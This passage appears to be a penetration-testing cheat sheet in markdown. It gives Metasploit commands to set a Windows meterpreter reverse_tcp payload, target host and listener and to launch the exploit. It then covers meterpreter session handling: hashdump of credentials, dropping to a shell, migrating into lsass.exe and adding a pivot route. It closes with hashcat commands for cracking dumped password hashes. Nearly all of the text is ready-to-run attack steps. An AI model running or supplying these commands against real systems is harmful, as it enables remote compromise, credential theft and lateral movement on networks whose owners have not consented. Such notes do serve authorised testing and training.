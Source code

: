 ```
msf > set PAYLOAD windows/meterpreter/reverse_tcp
```

Set LHOST

```
msf > set LHOST tun0
```

Set the target information

```
msf > set RHOSTS 10.142.145.120
```

Once all options are set, run:

```
msf > exploit
```

You might need to list and interact with session(s)

```
msf > sessions -l
msf > sessions -i SessionNum
meterpreter> hashdump
```

## Meterpreter

```
meterpreter > shell
meterpreter > migrate -N lsass.exe
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) >
route add 10.10.0.2 255.255.255.255 1
[*] Route added
```

## Hashcat

Crack passwords with a wordlist in automated mode

```
hashcat hash_file.txt word_list.txt
```

Display cracked passwords

```
hashcat hash_file.txt --show
```

Display uncracked passwords

```
hashcat hash_file.txt --left
```

